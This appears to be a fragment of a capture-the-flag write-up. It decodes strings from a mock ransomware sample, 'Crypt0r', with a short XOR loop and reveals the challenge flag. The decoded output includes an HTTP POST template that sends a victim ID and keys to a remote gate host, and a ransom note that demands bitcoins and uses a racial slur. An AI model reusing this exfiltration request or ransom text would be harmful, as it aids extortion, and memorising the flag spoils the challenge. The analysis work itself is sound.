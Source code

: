 ```
   ...: for i in range(len(data)):
   ...:     c=chr(ord(data[i]) ^ ord(key[i%0xc]))
   ...:     clear=clear+c
   ...:     

In [9]: print clear
The file to encrypt has not been found.
65537Oh oh oh... something went wrong.
INSAd64f428d49e137f68198597ea46d36dfcnc.challenge-by.ovhPOST /gate.php HTTP/1.1
User-Agent: Crypt0r
Host: crypt0r.gate
Content-Type: application/json

{
    "pigeonID": "%s",
    "privateKey": "%s",
    "crypt0rKey": "%s"
  }      ____                  _    ___       
     / ___|_ __ _   _ _ __ | |_ / _ \ _ __ 
    | |   | '__| | | | '_ \| __| | | | '__|
    | |___| |  | |_| | |_) | |_| |_| | |   
     \____|_|   \__, | .__/ \__|\___/|_|   
                |___/|_|                   


   !!  You've been Crypt0riz3d nigga  !!

Send 50 bitcoins on my wallet to get back
your file and send me the following code:
                 %s

If you don't, in 7 days it's gonna be 100.

Your file has been encrypted using RSA
algorithm, only my decrypt0r can give you
the file back.

~~~ Cyber Super Villain of the Darknet ~~~

crypt.medecrypt.me{
  "action": "%s",
  "data": %s}
null


In [10]:
```

## FLAG
We can quickly flag with INSAd64f428d49e137f68198597ea46d36df and fly to Crypt0R part 3 \o/

